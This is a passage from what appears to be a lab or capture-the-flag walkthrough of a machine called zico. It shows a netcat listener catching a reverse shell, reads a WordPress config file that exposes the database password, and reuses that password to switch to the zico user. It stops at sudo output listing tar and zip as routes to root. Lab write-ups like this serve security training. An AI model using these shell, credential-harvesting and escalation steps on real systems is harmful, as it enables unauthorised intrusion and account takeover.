 We have a shell with user privileges **www-data**.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.179] 55927
www-data@zico:/var/www$
```

Listing the wordpress config file in the zico's home directory. 

```bash
www-data@zico:/home/zico/wordpress$ head -40 wp-config.php
head -40 wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'zico');

/** MySQL database username */
define('DB_USER', 'zico');

/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');

/** MySQL hostname */
define('DB_HOST', 'zico');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
```

We reuse the wordpress password to login as user zico.

```bash
www-data@zico:/home/zico$ su zico
su zico
Password: sWfCsfJSPV9H3AmQzw8

zico@zico:~$ id
id
uid=1000(zico) gid=1000(zico) groups=1000(zico)
```

The zico user has sudo privileges to run the tar and zip binaries, we'll use the both to get root.

```bash
zico@zico:~$ sudo -l
sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```
